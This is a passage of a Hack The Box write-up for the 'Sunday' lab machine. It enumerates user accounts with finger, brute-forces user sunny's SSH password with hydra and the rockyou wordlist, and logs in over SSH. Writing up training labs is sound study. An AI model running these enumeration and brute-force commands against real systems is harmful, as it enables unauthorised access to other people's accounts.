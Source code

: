 ```bash
root@10.10.10.76: root     Super-User            console      <Dec 19, 2021>..
sammy@10.10.10.76: sammy           ???            ssh          <Apr 13 13:38> 10.10.14.13         ..
sunny@10.10.10.76: sunny           ???            ssh          <Apr 13 13:52> 10.10.14.13         ..
...
16 results.

10177 queries in 409 seconds (24.9 queries / sec)

```

Looks like there are 2 user accounts that we can play with!

Lets get the information of these users using `finger`.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sunday]
└─# finger sammy@10.10.10.76
Login       Name               TTY         Idle    When    Where
sammy           ???            ssh          <Apr 13 13:38> 10.10.14.13   

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sunday]
└─# finger sunny@10.10.10.76
Login       Name               TTY         Idle    When    Where
sunny           ???            ssh          <Apr 13 13:52> 10.10.14.13
```

# Exploit

Now, lets try `ssh` using `sunny`'s account!

However, it is password locked. Lets try using `hydra` to bruteforce the password for `sunny`!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sunday]
└─# hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 ssh -s 22022 -f
...
[DATA] attacking ssh://10.10.10.76:22022/
[22022][ssh] host: 10.10.10.76   login: sunny   password: sunday
...
```

Great! We found the password for `sunny`. Lets try `ssh` again.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Sunday]
└─# ssh sunny@10.10.10.76 -p 22022
(sunny@10.10.10.76) Password:sunday 
Warning: 4 failed authentication attempts since last successful authentication.  The latest at Sun Jul 24 12:01 2022.
Last login: Sun Jul 24 12:01:55 2022 from 10.10.14.5
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
sunny@sunday:~$ 
```
